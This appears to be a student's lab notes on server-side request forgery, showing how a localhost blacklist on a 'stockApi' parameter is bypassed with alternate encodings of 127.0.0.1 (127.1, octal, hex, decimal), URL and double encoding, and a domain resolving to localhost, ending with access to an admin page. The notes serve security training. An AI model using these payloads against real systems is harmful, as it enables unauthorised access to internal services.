 # Section 18: SSRF - Bypassing Security

## Bypassing Blacklists

same stockApi ➡️ Send to the Repeater ➡️ modify URL

```
stockApi=http://localhost/
```

Error:

_External stock check blocked for security reasons_

A possible implementation to prevent unauthorized requests is with a **black list** (If request in blacklist then block it)

### Other ways to refer to localhost:

```
lOcaLHost
127.0.0.1
127.1
017700000001
0x7f000001
2130707433
```

```
stockApi=http://lOcaLHost/
```

```
stockApi=http://127.1/
```

Other options
- URL-encode all characters
- double encode it
- register a domain, which is not going to be in the blacklist, and have that resolved to 127.0.0.1

now the admin page is being displayed

---
